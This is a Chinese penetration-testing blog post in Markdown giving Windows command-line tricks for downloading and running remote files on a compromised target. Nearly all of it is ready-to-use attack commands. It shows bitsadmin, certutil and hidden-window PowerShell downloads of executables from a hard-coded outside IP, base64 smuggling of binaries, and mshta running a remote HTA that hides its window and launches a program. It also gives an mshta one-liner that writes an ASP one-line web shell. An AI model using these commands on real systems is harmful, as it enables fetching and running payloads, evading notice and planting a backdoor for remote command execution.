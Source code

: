 +++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件，在windows的终端下执行远程文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

环境：Windows Server 2008 R2 Enterprise

### 0x00 bitsadmin下载文件
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.214.203/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload http://114.115.214.203/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal http://114.115.214.203/a.exe C:\Windows\Temp\a.exe
```

### 0x01 certutil下载文件
保存在当前目录
```bash
certutil -urlcache -split -f http://114.115.214.203/a.exe a.exe
```

有时会下载二进制文件的base64编码后的字符串，然后再解码
```
本地：certutil -encode cc.exe base64.txt
目标：certutil -urlcache -split -f http://114.115.214.203/base64.txt
目标：certutil -decode base64.txt cc.exe
```

文件会以二进制形式缓存到目录：C:\Users\Administrator\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```bash
certutil -urlcache -f http://114.115.214.203/a.exe
```

### 0x02 powershell下载文件
```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")
```

### 0x03 mshta下载文件与执行远程文件
使用mshta命令的文件都会被缓存到：C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files

* 执行远程hta文件

```bash
mshta http://114.115.214.203/payload.hta
mshta http://114.115.214.203/a.exe
#payload.hta和a.exe都会被缓存在IE的缓存目录
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

* 写文件的方法

```
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("a.asp",2,ture).writeline("<%execute(request('l'))%>")(window.close)
```

<br />
#### Reference(侵删)：
* [https://xianzhi.aliyun.com/forum/topic/1654](https://xianzhi.aliyun.com/forum/topic/1654)
* [https://evi1cg.me/archives/Tricks.html](https://evi1cg.me/archives/Tricks.html)
* [https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/](https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/)




未完待续。。。
